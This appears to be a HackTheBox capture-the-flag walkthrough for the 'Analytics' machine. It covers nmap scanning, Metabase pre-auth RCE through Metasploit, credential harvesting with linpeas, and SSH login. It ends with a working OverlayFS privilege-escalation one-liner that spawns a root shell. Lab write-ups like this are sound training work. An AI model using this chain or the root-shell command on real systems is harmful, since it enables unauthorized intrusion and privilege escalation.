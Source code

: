 # Analytics

This is my walkthrough for HackTheBox [Analytics Box](https://app.hackthebox.com/machines/Analytics)

<figure><img src="../../.gitbook/assets/image (840).png" alt=""><figcaption></figcaption></figure>

First we scan the Machine

```bash
nmap -T4 -Pn -v 10.129.85.38
```

<figure><img src="../../.gitbook/assets/image (841).png" alt=""><figcaption></figcaption></figure>

We see port 22 and 80 open.

Browse to the website and we get an error, add the IP and domain to the hosts file.&#x20;

<figure><img src="../../.gitbook/assets/image (842).png" alt=""><figcaption></figcaption></figure>

Now going back to the website we can look around!

<figure><img src="../../.gitbook/assets/image (843).png" alt=""><figcaption></figcaption></figure>

Looking around, we see the Login page at the top. Checking that out, it doesn't work BUT the URL has changed to `data.analytical.htb`, so let's add that to the hosts file as well.

<figure><img src="../../.gitbook/assets/image (844).png" alt=""><figcaption></figcaption></figure>

When looking we see it's running Metabase.

<figure><img src="../../.gitbook/assets/image (845).png" alt=""><figcaption></figcaption></figure>

Search for Metabase exploits on google as well as in metasploit. I find [this blog](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) talking about Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)

In Metasploit we see a potential exploit

<figure><img src="../../.gitbook/assets/image (846).png" alt=""><figcaption></figcaption></figure>

Let's check the options and set them

<figure><img src="../../.gitbook/assets/image (847).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (848).png" alt=""><figcaption></figcaption></figure>

Send the exploit....

<figure><img src="../../.gitbook/assets/image (849).png" alt=""><figcaption></figcaption></figure>

We have a shell! Now let's see if we can get and run linpeas.

<figure><img src="../../.gitbook/assets/image (850).png" alt=""><figcaption></figcaption></figure>

We can! Run it!

&#x20;

<figure><img src="../../.gitbook/assets/image (851).png" alt=""><figcaption></figcaption></figure>

We see in the "Environment" section, a user and a password

&#x20;

<figure><img src="../../.gitbook/assets/image (852).png" alt=""><figcaption></figcaption></figure>

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Let's ssh into the machine with the newly discovered username and password.

```bash
ssh metalytics@10.129.85.38
```

<figure><img src="../../.gitbook/assets/image (853).png" alt=""><figcaption></figcaption></figure>

Got the user flag! `5f24e4536b318d506fe1a38fbbd959fa`

<figure><img src="../../.gitbook/assets/image (854).png" alt=""><figcaption></figcaption></figure>

### Priv Escalation

I seen we were running Ubuntu 22.04.3 as we logged in.

&#x20;

<figure><img src="../../.gitbook/assets/image (855).png" alt=""><figcaption></figcaption></figure>

A simple google search for "Ubuntu 22.04.3 priv escalation" shows me [this reddit post](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu\_local\_privilege\_escalation\_cve20232640/) about Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629) with multiple references. They list how you can get root using the OverlayFS module with this command:

```bash
unshare -rm sh -c "mkdir 1 u w m && cp /u*/b*/p*3 1/; setcap cap_setuid+eip 1/python3;mount -t overlay overlay -o rw,lowerdir=1,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import pty; import os;os.setuid(0); pty.spawn("/bin/bash")'
```

We have root! `f35c47aac97cb1a6b5450d4eb024a3cc`

<figure><img src="../../.gitbook/assets/image (856).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (857).png" alt=""><figcaption></figcaption></figure>
